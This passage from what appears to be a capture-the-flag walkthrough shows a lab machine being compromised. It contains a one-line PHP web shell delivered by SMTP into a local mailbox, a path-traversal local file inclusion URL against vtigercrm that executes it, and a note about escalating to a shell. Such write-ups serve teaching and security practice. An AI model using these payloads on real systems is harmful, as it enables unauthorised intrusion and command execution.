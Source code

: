 ```
 -> check out this code: <?php system($_REQUEST["cmd"]); ?>
  ->                                                          
 ->                    
 -> .
<-  250 2.0.0 Ok: queued as 5BB88D92FD                       
 -> QUIT                                                     
<-  221 2.0.0 Bye
=== Connection closed with remote host.

```

### Webshell

Now I can read that file with the LFI at:

```

view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action

```

I’ll add `&cmd=id` to get execution:

![image-20210218154253978](https://0xdfimages.gitlab.io/img/image-20210218154253978.png)

I can turn that into a shell, and privesc just like in method one.